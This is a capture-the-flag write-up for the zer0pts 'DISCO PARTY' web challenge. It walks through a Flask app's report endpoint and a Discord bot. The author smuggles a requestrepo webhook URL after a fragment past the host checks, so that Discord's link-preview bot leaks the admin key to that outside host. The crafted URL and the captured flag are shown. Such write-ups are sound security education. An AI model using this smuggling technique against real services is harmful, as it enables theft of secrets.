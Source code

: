 # DISCO PARTY

## Description

There's maybe nothing special in description. 🤔
![Oops](./image/description.jpg)

## 💻 Explore the website

![Oops](./image/home.jpg)

There are 3 buttons here. The first two buttons seem common, so let try the last one.

I am allowed to create an invitation and to report issues about invitation.

![Oops](./image/test_web.gif)

Each invitation has an id.

## 🧑‍💻 Processing:
**web/app.py:** This file contains server code. There are some endpoints:

`/post/<string(length=16):id>`: I can get an invitation through this endpoint by supplying `id` (`len(id) == 16`). Besides, I can supply a `key` and make `is_admin` take value `True` to receive the flag. Maybe my target is `key` value.

`/api/new`: This endpoint creates post. I POST `title`, `content` and server will generate `id` for that post. Posts will be saved in database (`id`, `title`, `content`).

`api/delete`: Deletes a post if I had `id` and `key`.

`/api/report`: This endpoint takes my reports (`url`, `reason`, `g-recaptcha-response`). There are a lot of check stages here. After all, `message` will be saved in database. Look at the message form: 
```py 
message = f"URL: {url}?key={key}\nReason: {reason}"
```

Because there is bot directory, maybe I need to bypass check stages and make message contain my webhook like:
```py
f'URL: http://hjvnswkt.requestrepo.com?key={key}\nReason: something'
```
Or some messages similar. And the bot will click on the URL/send request and the key will be revealed. (In an ideal scenario) 🤤 

Let's check it out.

**bot/crawler.py:** 🤖

This bot is in a secret channel and will send/chat my message which is from `/api/report` endpoint.

There is no click here 😿.

I was stuck here for a very long time. 

Then I realized every big platforms like Discord have their own bots, and they click every URL in the conversation automatically. 

*Really? I don't believe, prove it.* 🤔

Setup a webhook:
![Oops](./image/setup_requestrepo.jpg)

Send a message with the webhook:
![Oops](./image/chat_url.jpg)

And receive requests:
![Oops](./image/request_discord_bot.jpg)

So, my plan is craft a message that contains `http://hjvnswkt.requestrepo.com/?key={key}` to get `key`.

**Bypass:**

```py
# Check URL
parsed = urllib.parse.urlparse(url.split('?', 1)[0])
if len(parsed.query) != 0:
    return flask.jsonify({"result": "NG", "message": "Query string is not allowed"})
if f'{parsed.scheme}://{parsed.netloc}/' != flask.request.url_root:
    return flask.jsonify({"result": "NG", "message": "Invalid host"})

# Parse path
adapter = app.url_map.bind(flask.request.host)
endpoint, args = adapter.match(parsed.path)
if endpoint != "get_post" or "id" not in args:
    return flask.jsonify({"result": "NG", "message": "Invalid endpoint"})

# Check ID
if not get_redis_conn(DB_TICKET).exists(args["id"]):
    return flask.jsonify({"result": "NG", "message": "Invalid ID"})
```

The first part makes sure my host (input `url`) is equal to server host.

The second part checks path of my URL which have to have `/post/<string(length=16):id>` form and there is `id` in request.

The last part takes `id` undercontrol (exists in database).

I think about a way. I use fragment to craft because none of three parts above do anything with fragment. This is my URL: `http://party.ctf.zer0pts.com:8007/post/UCs0yCK4AJwgyQnX# http://hjvnswkt.requestrepo.com`.

The space after `#` is necessary.
![Oops](./image/space_needed.jpg)

I just send report with that URL. Get key in requestrepo.
![Oops](./image/key.jpg)

And get the flag.
![Oops](./image/flag.jpg)

**🚩Flag: `zer0pts
{4h_p4rad1s3_l05t_6b4f6fbf5ee51003}`**

## 🤓 Notes:
There are some features I can abuse (Discord, Facebook, ... bot).
